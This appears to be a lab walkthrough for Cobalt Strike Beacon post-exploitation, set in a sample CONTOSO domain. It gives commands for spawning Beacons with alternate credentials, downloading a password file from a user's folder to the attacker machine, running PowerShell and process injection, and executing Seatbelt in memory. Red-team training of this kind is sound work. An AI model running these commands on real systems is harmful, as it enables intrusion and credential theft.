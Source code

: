 ### Session Passing

#### spawn

1.  Use the spawn command to run a new DNS Beacon.
     `spawn x64 dns`
#### spawnas

1.  Spawn a TCP Beacon using alternate credentials.
    `spawnas CONTOSO\rsteel Passw0rd! tcp-local`

### File System

1.  Change Beacon's working directory to the user's Documents folder.
    `cd C:\Users\pchilds\Documents`

2.  Confirm the new current working directory and list the directory.
    `pwd`
    `ls`
3.  Download the _password.txt_ file.
    `download password.txt`
     
4.  Sync the file to the Attacker Desktop.
    
    1. Go to **View > Downloads**.
    2. Select password.txt.
    3. Click **Sync Files**.
    4. Save the file to your desktop.

5.  Open the file in Notepad.

### Execution Commands

1.  Run a command via cmd.exe.
    `shell whoami /user`
    
2.  Run a command via powershell.exe.
    `powershell $env:computername`
    
3.  Run a command via unmanaged powershell.
    `powerpick $env:computername`
	 `psinject 6696 x64 $env:username`
    
4.  Run a .NET assembly in memory.
    `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus`
    
5.  Run a BOF
    `ipconfig`